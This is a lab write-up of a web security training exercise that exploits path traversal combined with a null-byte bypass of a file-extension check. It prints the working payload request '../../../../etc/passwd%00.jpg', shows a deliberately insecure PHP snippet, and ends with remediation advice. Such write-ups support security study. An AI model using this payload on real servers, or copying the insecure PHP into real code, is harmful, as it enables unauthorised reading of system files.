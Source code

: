 

---

- **Target:** Path Traversal Lab - validation of file extension with null byte bypass
- **Author:** sonyahack1
- **Date:** 05.05.2025

---

> vulnerability contains in the display of product images. so i open any card and open its image in new tab:

![image](./screenshots/image.png)

![image_url](./screenshots/image_url.png)

## Intercepting request

> Intercept image request in BurpSuite:

```html

GET /image?filename=21.jpg HTTP/2
Host: 0a94003d049d809f812520c200e300b1.web-security-academy.net
Cookie: session=dmFCbMWh7AJYj7F45*******************
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a94003d049d809f812520c200e300b1.web-security-academy.net/product?productId=12
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```

> from the lab description I know that the **application validates that the supplied filename ends with the expected file extension.**

> This means that when requesting an image **/image?** the server will expect a value for the **filename** parameter with a specific extension:
> .jpg, .png, .gif, .svg, .ico, etc. Which matches any image.

> So, i'm trying to read the **/etc/passwd/** file directly:

```html

GET /image?filename=../../../../etc/passwd HTTP/2

```

> Result:

```html

HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 14

"No such file"

```

> no such file.

> i use **Null byte injection** technique:


```html

GET /image?filename=../../../../etc/passwd%00.jpg HTTP/2

```

> Result:

![passwd_file](./screenshots/passwd_file.png)

> it's work.

---

> Actually I'm dealing with a combined vulnerability - **Path Traversal** + **Null byte injection**.
> **%00** is a **null byte**, which is used at the level of C-like programming languages, old versions of PHP, Perl, etc.
> to break a string. If incoming requests are not handled well by a server that may run on old low-level libraries the
> processing of such a string may be interrupted and terminated at **%00** . The server will process a string with **.jpg** but will terminate the processing
> at the null byte and read the file **/etc/passwd**.

> sometimes this technique is also called **Null Byte Poisoning**.

> An example of insecure path handling in PHP:

```php

$filename = $_GET['filename'];
if (endsWith($filename, '.jpg')) {
    readfile("/images/" . $filename);
}

```

> This vulnerability can be fixed as follows: **Do not check the path for a specific extension; also need to normalize**
> **the path and check that it remains inside a valid directory which also makes it possible to isolate user files**
> **in this separate directory and prohibit exit from it.**

---

![solved_lab](./screenshots/solved_lab.png)


